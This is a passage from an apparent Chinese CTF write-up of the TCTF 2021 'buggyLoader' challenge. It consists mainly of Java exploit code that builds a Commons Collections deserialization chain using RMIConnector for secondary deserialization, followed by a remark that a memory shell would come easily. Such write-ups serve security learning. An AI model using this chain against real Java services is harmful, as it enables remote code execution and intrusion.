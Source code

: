 ```java
    }

    public static void main(String[] args) throws Exception {
        //获取exp的base64编码
        ByteArrayOutputStream tser = new ByteArrayOutputStream();
        ObjectOutputStream toser = new ObjectOutputStream(tser);
        toser.writeObject(getObject());
        toser.close();

        String exp= Base64.getEncoder().encodeToString(tser.toByteArray());

        //创建恶意的RMIConnector
        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
        setFieldValue(jmxServiceURL, "urlPath", "/stub/"+exp);
        RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);

        //使用InvokerTransformer 调用 connect 方法
        InvokerTransformer invokerTransformer = new InvokerTransformer("connect", null, null);

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map, new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, rmiConnector);

        HashMap<Object, Object> expMap = new HashMap<>();
        expMap.put(tiedMapEntry, "test");
        lazyMap.remove(rmiConnector);

        setFieldValue(lazyMap,"factory", invokerTransformer);

        //序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeUTF("SJTU");
        oos.writeInt(1896);
        oos.writeObject(expMap);
        oos.close();
        System.out.println(bytesTohexString(baos.toByteArray()));
    }
}
```
先打一个回显试一下

![](https://img-blog.csdnimg.cn/77a7f3ebe1ba4cc59fad90b8e191a77f.png)

成功了，那内存马不就手到擒来，就不多分析了


参考：
[TCTF 2021——buggyLoader(二次反序列化)](http://miku233.viewofthai.link/2022/05/29/buggyLoader/)
[Java安全大杂烩的CTF题-buggyloader](https://www.bilibili.com/video/BV1LZ4y1m7Ah)
[JavaDerserializeLabs-writeup](http://novic4.cn/index.php/archives/26.html)
[javaDeserializeLabs writeup](https://longlone.top/%E5%AE%89%E5%85%A8/java/java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/javaDeserializeLabs%20writeup/)
